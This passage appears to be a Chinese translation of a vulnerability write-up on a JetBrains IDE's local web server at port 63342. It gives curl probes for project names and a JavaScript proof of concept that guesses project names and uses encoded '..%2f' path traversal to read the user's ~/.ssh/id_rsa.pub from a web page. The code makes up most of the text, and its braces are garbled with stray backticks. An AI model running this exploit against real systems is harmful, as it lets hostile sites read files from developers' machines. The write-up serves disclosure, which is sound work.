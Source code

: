 

接下来唯一的限制就是必须要知道受害者的项目名称。最明显的选择就是使用词典中存在的潜在项目名（用户可能已经打开），并尝试请求/&lt;potential_projectname&gt;/.idea/workspace.xml。



```
$ curl --head "http://localhost:63342/testing/.idea/workspace.xml"
HTTP/1.1 200 OK
$ curl --head "http://localhost:63342/somethingelse/.idea/workspace.xml"
HTTP/1.1 404 Not Found
```

下面是JavaScript中一个原始的PoC：



```
function findLoadedProject(cb) `{`
  var xhr = new XMLHttpRequest();
  // Let's assume we have a sensible dictionary here.
  var possibleProjectNames = ["foobar", "testing", "bazquux"];
  var tryNextProject = function() `{`
    if (!possibleProjectNames.length) `{`
      cb(null);
      return;
    `}`
    var projectName = possibleProjectNames.pop();
    xhr.open("GET", "http://localhost:63342/" + projectName + "/.idea/workspace.xml", true);
    xhr.onload = function() `{`
      if(xhr.status === 200) `{`
        cb(projectName);
      `}` else `{`
        tryNextProject();
      `}`
    `}`;
    xhr.send();
  `}`;
`}`
 
var findSSHKeys = function(projectName) `{`
  var xhr = new XMLHttpRequest();
  var depth = 0;
  var tryNextDepth = function() `{`
    // No luck, SSH directory doesn't share a parent
    // directory with the project.
    if(++depth &gt; 15) `{`
      return;
    `}`
    // Chances are that both `.ssh` and the project directory are under the user's home folder,
    // let's try to walk up the dir tree.
    dotSegs = "..%2f".repeat(depth);
    xhr.open("GET", "http://localhost:63342/" + projectName + "/" + dotSegs + ".ssh/id_rsa.pub", true);
    xhr.onload = function() `{`
      if (xhr.status === 200) `{`
        console.log(xhr.responseText);
      `}` else `{`
        tryNextDepth();
      `}`
    `}`;
    xhr.send();
  `}`
`}`;
 
findLoadedProject(function(projectName) `{`
  if(projectName) `{`
```